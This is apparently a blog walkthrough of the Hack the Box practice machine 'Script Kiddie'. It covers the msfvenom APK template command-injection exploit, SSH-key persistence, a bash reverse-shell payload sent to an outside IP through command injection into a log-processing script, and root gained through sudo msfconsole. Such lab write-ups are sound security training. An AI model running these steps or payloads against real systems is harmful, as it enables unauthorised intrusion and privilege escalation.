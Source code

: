 +++
author = "Nick"
categories = ["hack the box", "Linux", "netcat", "ssh-keygen", "metasploit"]
date = 2021-06-05T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2021/05/scriptkiddie.png"
slug = "hack-the-box-script-kiddie"
summary = "Welcome back everyone! Today we are going to do the Hack the Box machine Script Kiddie. This is a Linux machine rated as easy. Let's jump in!"
tags = ["hack the box", "Linux", "netcat", "ssh-keygen", "metasploit"]
title = "Hack the Box - Script Kiddie"
url = "/hack-the-box-script-kiddie"

+++


Welcome back everyone! Today we are going to do the Hack the Box machine Script Kiddie. This is a Linux machine rated as easy. Let's jump in!

As always, we kick of our scans with `nmap` - `nmap -sC -sV -p- -oA allscan 10.10.10.226`.

Here are our results:
```
Nmap scan report for 10.10.10.226
Host is up (0.049s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)| ssh-hostkey:|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)5000/tcp  open     http    Werkzeug httpd 0.16.1 (Python 3.8.5)|_http-server-header: Werkzeug/0.16.1 Python/3.8.5|_http-title: k1d'5 h4ck3r t00l559012/tcp filtered unknownService Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There isn't much to go with. We see a webserver on port 5000 and that's about it. Let's take a look.

![](/images/2021/04/image.png)

We see a basic hacking tool interface. We can scan an IP address or create payloads. We have the ability to upload a payload template as well. We test out the page and sure enough it does generate some payloads. Some googling around leads us [here](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md). A MSF Venom template CVE and PoC.

We can find this template in `Metasploit`. If we search for `template` in `MSF` we see the module:

![](/images/2021/04/image-1.png)

We list out our `options`. We have pretty much the basics, an `lport` and `lhost`.

![](/images/2021/04/image-2.png)

We'll add our IP and port and generate the payload.

![](/images/2021/04/image-4.png)

We can even do the following to spin up an automatic payload handler within `MSF` if we want. I often do this, but in this case, we'll use `netcat`.

Command:
`msf6> set DisablePayloadHandler false`

Running the exploit shows us the path the file is saved. We'll copy out the payload and upload it to our web interface we found before. We also need to have a listener running.

Command:
`nc -lvnp 4444`

We can then set our localhost on the website to 127.0.0.1 and the platform to android.

![](/images/2021/05/image.png)

Once we hit generate, we should catch a connection back.

![](/images/2021/05/image-1.png)

Now we want to upgrade this shell. First, we check for `Python` and `Python3`.

Commands:
`which python`
`which python3`

![](/images/2021/05/image-2.png)

We see `Python3` installed so we'll [upgrade our shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) with that.

Command:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now with a better shell connection, we can look around. This account does contant the `user.txt` flag, awesome! Now we can start enumerating for the `root.txt` flag. 

Next we want to find a better way tro stay connected. We can append our `ssh key` to the `authorized_keys` file for this user. First we'll want to make a new key with `ssh-keygen`.

Command:
`ssh-keygen`

We can copy the `id_rsa.pub` content into the `authorized_keys` file. Now we can just `ssh` into the box.

Command:
`ssh -i id_rsa kid@10.10.10.226`

Now that w're in, we don't even have to load `linenum.sh` or any other enumeration tools. We are able to manually access the `pwn` user account and freely look around to start.

Inside the `pwn` user account, we see a file called `scanlosers.sh` with the following code:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Can you spot the problem with this script? That's right, we can command injection into this. After some trial and error we find a command we can append the the `hackers` file to get a shell back.

Command:
`echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.116/1234 0>&1' #" >> hackers`

We quickly see the shell returned as `pwn`.

![](/images/2021/05/image-3.png)

However, `pwn` cannot access `root.txt`. So we need to look around some more. Basic enumeration shows us that we can run `msfconsole` as root.

![](/images/2021/05/image-4.png)

Awesome, let's do that. When the console loads, we get a bunch of ioctl errors but when we check our ID, we are running as `root`.

![](/images/2021/05/image-5.png)

Now we can simply cat the `root.txt` flag!

![](/images/2021/05/image-6.png)

A nice easy box with some required research and trial / error.

If you found this write-up useful, send some respect my way:
https://app.hackthebox.eu/profile/95635



